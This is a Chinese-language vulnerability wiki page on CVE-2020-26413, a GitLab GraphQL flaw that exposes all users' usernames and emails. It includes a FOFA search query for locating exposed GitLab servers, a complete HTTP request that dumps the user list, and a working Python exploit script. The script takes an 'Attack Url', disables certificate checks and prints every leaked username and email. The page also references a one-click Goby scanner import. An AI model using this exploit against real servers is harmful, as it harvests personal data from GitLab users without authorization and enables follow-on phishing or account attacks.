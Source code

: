 # GitLab Graphql邮箱信息泄露漏洞 CVE-2020-26413

## 漏洞描述

GitLab中存在Graphql接口 输入构造的数据时会泄露用户邮箱和用户名

## 漏洞影响

> [!NOTE]
>
> GitLab 13.4 - 13.6.2

## FOFA

> [!NOTE]
>
> title="GitLab"

## 漏洞复现

漏洞来源为 hackone上的一篇公开报告 

https://gitlab.com/gitlab-org/gitlab/-/issues/244275

![](image/gitlab-1.png)



意思为当使用构造的语句在接口查询时会返回邮箱信息，如图

访问 URL http://xxx.xxx.xxx.xxx/-//graphql-explorer

![](image\gitlab-2.png)

Gitlab本身不允许获取账号邮箱信息，这里通过调用 Graphql 用户名查询造成了邮箱泄露漏洞

查看完报告后发现漏洞利用需要有账号用户名，在不知道的情况下无法获取邮箱，在[Graphql官网](https://graphql.cn/)查看得知可以通过另一个构造的语句一次性返回所有的用户名和邮箱

![](image\gitlab-3.png)

发包调用了 **/api/graphql** 接口发送数据

完整数据包为

```json
POST /api/graphql HTTP/1.1
Host: xxx.xxx.xxx.xxx
Content-Length: 212
Content-Type: application/json


{"query":"{\nusers {\nedges {\n  node {\n    username\n    email\n    avatarUrl\n    status {\n      emoji\n      message\n      messageHtml\n     }\n    }\n   }\n  }\n }","variables":null,"operationName":null}
```

![](image\gitlab-4.png)

成功返回数据，造成 Gitlab的用户邮箱信息泄露

## 漏洞利用POC

```python
import requests
import sys
import random
import re
import json
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mVersion: GitLab 13.4 - 13.6.2                                     \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/api/graphql"
    user_number = 0
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Content-Type": "application/json",
    }
    try:
        data = """
        {"query":"{\\nusers {\\nedges {\\n  node {\\n    username\\n    email\\n    avatarUrl\\n    status {\\n      emoji\\n      message\\n      messageHtml\\n     }\\n    }\\n   }\\n  }\\n }","variables":null,"operationName":null}
        """
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers, data=data ,verify=False, timeout=5)
        if "email" in response.text and "username" in response.text and "@" in response.text and response.status_code == 200:
            print('\033[32m[o] 目标{}存在漏洞, 泄露用户邮箱数据....... \033[0m'.format(target_url))
            for i in range(0,999):
                try:
                    username = json.loads(response.text)["data"]["users"]["edges"][i]["node"]["username"]
                    email = json.loads(response.text)["data"]["users"]["edges"][i]["node"]["email"]
                    user_number = user_number + 1
                    print('\033[34m[o] 用户名:{} 邮箱:{} \033[0m'.format(username, email))
                except:
                    print("\033[32m[o] 共泄露{}名用户邮箱账号 \033[0m".format(user_number))
                    sys.exit(0)
        else:
            print("\033[31m[x] 不存在漏洞 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```

![](image\gitlab-5.png)

## Goby & POC

> [!NOTE]
>
> GitLab Graphql邮箱信息泄露漏洞 CVE-2020-26413
>
> EXP放在 Goby & POC 目录中可一键导入Goby扫描 

![](image\gitlab-6.png)